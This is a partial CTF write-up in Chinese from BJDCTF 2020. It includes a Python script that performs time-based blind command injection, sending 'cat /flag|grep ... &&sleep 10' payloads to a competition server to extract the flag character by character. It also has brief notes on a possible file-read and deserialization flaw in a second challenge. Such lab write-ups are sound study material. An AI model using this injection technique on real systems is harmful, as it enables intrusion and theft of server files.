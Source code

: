 # 2020BJDCTF第三届

##  帮帮小红花 

```php
# -*-coding:utf-8 -*-
import requests
import re

flag_format = re.compile('flag\\{[0-9a-z]{8}-[0-9a-z]{4}-[0-9a-z]{4}-[0-9a-z]{4}-[0-9a-z]{12}\\}')
all_letter = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ-0123456789abcdefghijklmnopqrstuvwxyz()}{_'


def get_flag(command):
    try:
        r = requests.get('http://183.129.189.60:10071', params={'imagin': command}, timeout=9)
    except:
        return True
    return False


if __name__ == '__main__':
    flag = 'BJD{make_iptables_great_again}'
    while flag_format.match(flag) == None:
        staus = 0
        for i in all_letter:
            payload = 'cat /flag|grep %s &&sleep 10' % (flag + i)
            print(payload)
            if get_flag(payload):
                staus = 1
                flag += i
                print(flag)
                break
        if staus == 0:
            flag = flag[0:-1]

```



##  gob 

![image-20200523090430266](C:\Users\蔡建斌\AppData\Roaming\Typora\typora-user-images\image-20200523090430266.png)

可能存在反序列化

和文件内容无关

上传文件后发现有个filename字段，show界面是直接出现图片的base64编码，如果我们能控制filename字段就有可能任意读取

当唯一麻烦的是，文件名后面有个md5校验值
